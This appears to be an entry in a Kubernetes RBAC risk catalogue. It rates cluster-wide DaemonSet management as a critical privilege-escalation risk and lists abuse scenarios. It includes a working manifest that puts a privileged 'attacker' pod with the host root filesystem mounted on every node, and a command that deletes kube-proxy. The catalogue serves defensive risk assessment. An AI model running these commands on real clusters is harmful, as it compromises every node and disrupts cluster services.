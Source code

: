 ```yaml
---
id: 1035
title: "Manage DaemonSets cluster-wide (runs on all nodes, high impact)"
description: "Permits creating, updating, or deleting DaemonSets across the cluster. DaemonSets ensure a pod runs on all (or selected) nodes. This is highly critical as it allows deploying privileged pods directly onto every node, leading to widespread node compromise, privilege escalation, and persistent access."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                                        |
| ------------- | -------------------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1035                                                                                                                                         |
| Name          | Manage DaemonSets cluster-wide (runs on all nodes, high impact)                                                                              |
| Risk Category | Elevation of Privilege                                                                                                                       |
| Risk Level    | {{< risk Critical >}}                                                                                                                        |
| Role Type     | ClusterRole                                                                                                                                  |
| API Groups    | apps                                                                                                                                         |
| Resources     | daemonsets                                                                                                                                   |
| Verbs         | create, update, patch, delete                                                                                                                |
| Tags          | {{< tag "NodeAccess" >}} {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Permits creating, updating, or deleting DaemonSets across the cluster. DaemonSets ensure a pod runs on all (or selected) nodes. This is highly critical as it allows deploying privileged pods directly onto every node, leading to widespread node compromise, privilege escalation, and persistent access.

## Abuse Scenarios

1. Create a new DaemonSet that deploys a privileged pod on every node.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: privileged-daemonset
spec:
  selector:
    matchLabels:
      app: privileged-ds
  template:
    metadata:
      labels:
        app: privileged-ds
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: attacker
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
EOF
# Example: kubectl create -n kube-system -f - <<EOF ... EOF

```

2. Delete a critical DaemonSet, disrupting cluster-wide services.

```bash {copy=true}
kubectl delete daemonset <daemonset-name> -n <namespace>
# Example: kubectl delete daemonset kube-proxy -n kube-system

```
